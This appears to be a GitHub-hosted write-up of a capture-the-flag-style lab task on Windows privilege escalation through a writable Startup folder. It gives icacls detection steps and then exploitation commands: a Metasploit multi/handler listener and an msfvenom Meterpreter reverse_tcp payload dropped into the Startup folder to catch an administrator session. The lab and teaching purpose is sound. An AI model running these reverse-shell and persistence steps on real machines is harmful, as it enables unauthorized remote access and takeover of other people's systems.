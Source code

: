 <img width="972" height="228" alt="image" src="https://github.com/user-attachments/assets/cde2e19d-6a52-4090-bc07-ffe97c85d162" />

<br>
<br>
<br>
<h2 align="center">Task 7 . Privilege Escalation - Stratup Applications/h2>
<h3 align="center">Detection</h3>
<p>Windows VM<br>

1. Open command prompt and type: icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"<br>
2. From the output notice that the “BUILTIN\Users” group has full access ‘(F)’ to the directory.</p>

<h3 align="center">Exploitation</h3>
<p>Kali VM<br>

1. Open command prompt and type: msfconsole<br>
2. In Metasploit (msf > prompt) type: use multi/handler<br>
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp<br>
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]<br>
5. In Metasploit (msf > prompt) type: run<br>
6. Open another command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe<br>
7. Copy the generated file, x.exe, to the Windows VM.<br><br>

Windows VM<br>

1. Place x.exe in “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”.<br>
2. Logoff.<br>
3. Login with the administrator account credentials.<br><br>

Kali VM<br>

1. Wait for a session to be created, it may take a few seconds.<br>
2. In Meterpreter(meterpreter > prompt) type: getuid<br>
3. From the output, notice the user is “User-PC\Admin”</p>

<p><em>Answer the questions below</em></p>

<p>7.1. Click 'Completed' once you have successfully elevated the machine<br>
<code>No answer needed</code></p>

<img width="989" height="179" alt="image" src="https://github.com/user-attachments/assets/24312190-a7a6-4a69-921f-83f28d69753d" />


<br>
<br>

```bash


```


